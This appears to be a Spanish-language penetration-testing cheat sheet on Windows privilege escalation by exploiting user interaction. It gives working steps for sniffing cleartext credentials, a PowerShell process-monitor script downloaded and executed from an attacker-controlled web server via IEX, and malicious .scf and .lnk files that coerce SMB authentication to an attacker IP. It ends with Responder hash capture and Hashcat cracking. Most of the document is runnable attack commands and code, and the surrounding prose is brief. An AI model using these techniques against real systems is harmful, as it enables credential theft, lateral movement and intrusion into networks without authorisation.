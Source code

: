 # Windows Privilege Escalation – Interacting with Users

Los usuarios pueden ser aprovechados como vector de escalada de privilegios. Estas técnicas implican manipular su interacción con el sistema para obtener credenciales o hashes.

---

## 1. Captura de tráfico (Traffic Capture)

### Descripción
Si Wireshark o Npcap están instalados y mal configurados, es posible capturar tráfico en la máquina y robar credenciales en texto claro o hashes NTLM.

### Pasos

1. **Verificar instalación:**
   - Revisar si existe Wireshark/Npcap en `C:\Program Files\Wireshark\`.

2. **Capturar tráfico en la máquina comprometida:**
   ```powershell
   wireshark
   ```
   - Filtrar por protocolos: `ftp`, `http`, `smtp`.

3. **Analizar credenciales:**
   Ejemplo de tráfico FTP:
   ```
   USER root
   PASS FTP_adm1n!
   ```

4. **Alternativa desde máquina atacante:**
   - Capturar con `tcpdump` o Wireshark.
   - Extraer credenciales automáticamente:
     ```bash
     sudo python3 net-creds.py -i eth0
     # o
     sudo python3 net-creds.py -p captura.pcap
     ```

---

## 2. Monitoreo de líneas de comandos de procesos

### Descripción
Detectar credenciales pasadas como argumentos en procesos (`net use`, tareas programadas).

### Pasos

1. **Script en PowerShell para monitorear:**  
   ```powershell
   while($true) {
     $process = Get-WmiObject Win32_Process | Select-Object CommandLine
     Start-Sleep 1
     $process2 = Get-WmiObject Win32_Process | Select-Object CommandLine
     Compare-Object -ReferenceObject $process -DifferenceObject $process2
   }
   ```


2. **Ejecutar el script en la máquina víctima, obteniéndolo por ejemplo desde la máquina atacante creando servidor web simple:**
   ```powershell
   IEX (iwr 'http://<IP_atacante>/procmon.ps1')
   ```

3. **Ejemplo encontrado:**
   ```
   net use T: \\sql02\backups /user:dominio\sqlsvc My4dm1nP@s5w0Rd
   ```

4. **Usar credenciales descubiertas:**
   ```powershell
   net use T: \\sql02\backups /user:dominio\sqlsvc My4dm1nP@s5w0Rd
   ```

---

## 3. SCF malicioso en shares

### Descripción
Archivos `.scf` manipulados provocan autenticación SMB al acceder a la carpeta.

### Pasos

1. **Crear archivo malicioso:**
   Guardar como `@Inventory.scf`:
   ```ini
   [Shell]
   Command=2
   IconFile=\\<IP_atacante>\share\legit.ico
   [Taskbar]
   Command=ToggleDesktop
   ```

2. **Colocarlo en share accesible.**

3. **Ejecutar Responder para capturar hashes:**
   ```bash
   sudo responder -wrf -v -I tun0
   ```

4. **Crackear hash con Hashcat:**
   ```bash
   hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
   ```

---

## 4. Archivos `.lnk` maliciosos (para Server 2019+)

### Descripción
Alternativa a SCF cuando ya no funcionan en Server 2019 y posteriores.

### Pasos

1. **Generar `.lnk` malicioso con PowerShell:**
   ```powershell
   $objShell = New-Object -ComObject WScript.Shell
   $lnk = $objShell.CreateShortcut("C:\legit.lnk")
   $lnk.TargetPath = "\\<IP_atacante>\@pwn.png"
   $lnk.WindowStyle = 1
   $lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
   $lnk.Description = "Browse to trigger auth request"
   $lnk.HotKey = "Ctrl+Alt+O"
   $lnk.Save()
   ```

2. **Colocar el `.lnk` en un share usado por usuarios.**

3. **Capturar hashes con Responder/Inveigh.**

